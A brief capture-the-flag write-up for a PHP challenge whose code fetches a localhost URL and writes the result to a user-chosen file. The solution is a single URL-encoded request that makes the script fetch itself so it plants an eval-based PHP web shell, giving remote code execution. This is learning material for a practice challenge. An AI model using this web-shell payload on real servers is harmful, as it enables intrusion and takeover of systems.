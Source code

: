 # Challenge
```php 
<?php
if(isset($_GET) && !empty($_GET)){
    $url = $_GET['file'];
    $path = 'upload/'.$_GET['path'];
}else{
    show_source(__FILE__);
    exit();
}
 
if(strpos($path,'..') > -1){
    die('SYCwaf!');
}
 
if(strpos($url,'http://127.0.0.1/') === 0){
    file_put_contents($path, file_get_contents($url));
    echo "console.log($path update successed!)";
}else{
    echo "Hello.Geeker";
}
 
```

# Solution

```
?path=haha.php&file=http%3A%2f%2f127.0.0.1%2fphp_challenge%2f45.php%3Fpath%3D%253C%253Fphp%2520@eval%2528%2524_POST%255Bx%255D%2529%253B%253F%253E%26file%3Dhttp%3A%2f%2f127.0.0.1%2fphp_challenge%2f45.php
```

解法同31



# Refference 

+ [一道php代码审计题目的分析](https://b.zlweb.cc/%E4%B8%80%E9%81%93php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E9%A2%98%E7%9B%AE%E7%9A%84%E5%88%86%E6%9E%90.html)